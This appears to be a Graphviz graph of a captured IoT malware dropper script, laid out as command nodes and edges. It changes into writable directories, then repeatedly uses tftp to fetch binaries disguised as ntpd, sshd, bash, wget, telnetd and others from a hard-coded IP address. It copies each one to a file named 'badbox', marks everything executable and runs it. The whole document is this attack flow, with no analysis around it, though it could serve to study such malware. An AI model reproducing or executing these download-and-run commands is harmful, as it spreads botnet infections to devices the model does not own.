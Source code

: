 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 14 [label="||,"];
14 [label="tftp 174.138.49.132 -c get ntpd "];
14 -> 16 [label=";,"];
16 [label="cat ntpd badbox "];
16 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 34 [label="||,"];
34 [label="tftp 174.138.49.132 -c get sshd "];
34 -> 36 [label=";,"];
36 [label="cat sshd badbox "];
36 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 54 [label="||,"];
54 [label="tftp 174.138.49.132 -c get openssh "];
54 -> 56 [label=";,"];
56 [label="cat openssh badbox "];
56 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 74 [label="||,"];
74 [label="tftp 174.138.49.132 -c get bash "];
74 -> 76 [label=";,"];
76 [label="cat bash badbox "];
76 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 94 [label="||,"];
94 [label="tftp 174.138.49.132 -c get tftp "];
94 -> 96 [label=";,"];
96 [label="cat tftp badbox "];
96 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 114 [label="||,"];
114 [label="tftp 174.138.49.132 -c get wget "];
114 -> 116 [label=";,"];
116 [label="cat wget badbox "];
116 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 134 [label="||,"];
134 [label="tftp 174.138.49.132 -c get cron "];
134 -> 136 [label=";,"];
136 [label="cat cron badbox "];
136 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 154 [label="||,"];
154 [label="tftp 174.138.49.132 -c get ftp "];
154 -> 156 [label=";,"];
156 [label="cat ftp badbox "];
156 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 174 [label="||,"];
174 [label="tftp 174.138.49.132 -c get pftp "];
174 -> 176 [label=";,"];
176 [label="cat pftp badbox "];
176 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 194 [label="||,"];
194 [label="tftp 174.138.49.132 -c get sh "];
194 -> 196 [label=";,"];
196 [label="cat sh badbox "];
196 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 214 [label="||,"];
214 [label="tftp 174.138.49.132 -c get [cpu] "];
214 -> 216 [label=";,"];
216 [label="cat [cpu] badbox "];
216 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 234 [label="||,"];
234 [label="tftp 174.138.49.132 -c get apache2 "];
234 -> 236 [label=";,"];
236 [label="cat apache2 badbox "];
236 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 254 [label="||,"];
254 [label="tftp 174.138.49.132 -c get telnetd "];
254 -> 256 [label=";,"];
256 [label="cat telnetd badbox "];
256 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
}
